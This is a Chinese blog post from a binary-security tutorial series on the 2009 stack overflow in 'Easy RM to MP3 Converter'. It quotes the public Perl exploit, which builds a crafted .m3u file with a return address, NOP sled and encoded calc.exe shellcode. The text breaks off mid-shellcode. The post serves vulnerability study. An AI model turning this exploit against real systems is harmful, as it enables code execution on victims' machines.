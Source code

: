 ```yaml
---
title: A Tale of Exploit "Easy RM 2 MP3 
date: 2018-06-24 15:15:11
categories: binary-security
tags:
	- stack-overrun
	- exploit
---
```

对一个年代久远的经典栈溢出，从漏洞分析到编写exp的过程进行了记录。我个人正在录制二进制安全系列教程，该样本将作为经典栈溢出的讲解实例。
收录：二进制安全系列教程
链接：https://pan.baidu.com/s/1ltcHIehhLFVFMvru6tGQ8A 密码：axje



# A Tale of Exploit "Easy RM 2 MP3 Converter"

"Easy RM 2 MP3 Converter"是一个音频格式的转换工具，年代可以说非常久远了。在2009年7月17日，packetstormsecurity公开了该软件的一个栈溢出漏洞并提供了exploit。

附上原文链接：<https://packetstormsecurity.com/files/79357/Easy-RM-To-MP3-Converter-Stack-Overflow.html>

Exp-DB也收录了这一漏洞，尽管没有CVE：<https://www.exploit-db.com/exploits/9186/>

因为该实例非常经典，对该漏洞的分析文章可谓是不胜枚举。比较著名的就是Corelan Team的“Exp编写系列”。在这里，我们抛开其他先驱者的描摹，自己尝试从原始的报告开始分析。

> 这个漏洞也是我五年前刚刚接触二进制安全时，第一个调试的漏洞。情怀！

## 调研

我们先来看看公开的exp：

```perl
#!/usr/bin/perl
# Easy RM to MP3 Converter .m3u file Universall Stack Overflow Exploit
# it's so diferent to the first exploit .pls
# by stack
# xd Alpha zrebti 3liha :d
# Thnx to Zigma & His0k4 & HOD
my $header= "\x23\x45\x58\x54\x4D\x33\x55\x0D\x0A\x23\x45\x58\x54\x49\x4E\x46".
            "\x3A\x33\x3A\x35\x30\x2C\x4C\x61\x6D\x62\x20\x4F\x66\x20\x47\x6F".
            "\x64\x20\x2D\x20\x53\x65\x74\x20\x54\x6F\x20\x46\x61\x69\x6C\x20".
            "\x0D\x0A\x44\x3A\x5C";
  
my $junk  = "\x41" x 1293;
my $ret   = "\xDB\x70\xBB\x01"; # Universal return adress :d
my $nop   = "\x90" x 220;
# win32_exec -  EXITFUNC=seh CMD=calc.exe Size=351 Encoder=PexAlphaNum http://metasploit.com
my $calc_shell =
    "\xeb\x03\x59\xeb\x05\xe8\xf8\xff\xff\xff\x4f\x49\x49\x49\x49\x49".
    "\x49\x51\x5a\x56\x54\x58\x36\x33\x30\x56\x58\x34\x41\x30\x42\x36".
    "\x48\x48\x30\x42\x33\x30\x42\x43\x56\x58\x32\x42\x44\x42\x48\x34".
    "\x41\x32\x41\x44\x30\x41\x44\x54\x42\x44\x51\x42\x30\x41\x44\x41".
    "\x56\x58\x34\x5a\x38\x42\x44\x4a\x4f\x4d\x4e\x4f\x4a\x4e\x46\x44".
    "\x42\x50\x42\x50\x42\x30\x4b\x48\x45\x34\x4e\x43\x4b\x38\x4e\x47".
    "\x45\x30\x4a\x57\x41\x30\x4f\x4e\x4b\x48\x4f\x34\x4a\x51\x4b\x48".
    "\x4f\x55\x42\x52\x41\x50\x4b\x4e\x49\x34\x4b\x48\x46\x53\x4b\x48".
    "\x41\x50\x50\x4e\x41\x33\x42\x4c\x49\x49\x4e\x4a\x46\x58\x42\x4c".
    "\x46\x37\x47\x50\x41\x4c\x4c\x4c\x4d\x30\x41\x50\x44\x4c\x4b\x4e".
    "\x46\x4f\x4b\x53\x46\x55\x46\x52\x46\x30\x45\x37\x45\x4e\x4b\x38".
    "\x4f\x45\x46\x32\x41\x30\x4b\x4e\x48\x56\x4b\x38\x4e\x50\x4b\x54".
    "\x4b\x48\x4f\x45\x4e\x51\x41\x30\x4b\x4e\x4b\x58\x4e\x41\x4b\x58".
    "\x41\x50\x4b\x4e\x49\x48\x4e\x45\x46\x42\x46\x30\x43\x4c\x41\x43".
    "\x42\x4c\x46\x36\x4b\x58\x42\x34\x42\x33\x45\x48\x42\x4c\x4a\x57".
    "\x4e\x30\x4b\x48\x42\x44\x4e\x30\x4b\x48\x42\x47\x4e\x41\x4d\x4a".
```